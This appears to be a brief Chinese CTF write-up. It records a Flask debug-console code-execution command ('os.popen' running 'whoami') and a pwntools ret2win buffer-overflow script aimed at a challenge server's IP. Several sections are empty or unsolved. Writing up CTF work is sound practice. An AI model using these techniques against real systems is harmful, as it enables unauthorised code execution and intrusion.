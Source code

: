 # web
### where-are-the-cookies
>[!description]
Tom is feeling especially snacky during the CTF, can you find where the cookies are?
Note: This challenge works best on Chrome

express+nginx1.25.1
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20230805223931.png)
我tm哪知道cookies在哪

---


### debugzero
#flask
猜到了路由 `/console`,flask pin值在css文件里,直接可以进入
console rce
`__import__('os').popen('whoami').read();`
# reverse

# pwn
### Easy Peasy
vuln函数里有gets,一眼栈溢出
漏洞函数
```c
void __cdecl vuln()
{
  char buf[32]; // [rsp+0h] [rbp-20h] BYREF

  gets(buf);
}
```

```python
from pwn import *
#local
#sh = process("./ret2text")
#remote
sh=remote('3.110.66.92',32075)
win = 0x4017E53
sh.sendline(b'A'*40 + p64(win))
sh.recvline()         
```
感觉一点问题没有,,,

# crypto

# Misc


---
# *相关wp*




2023-08-05   21:05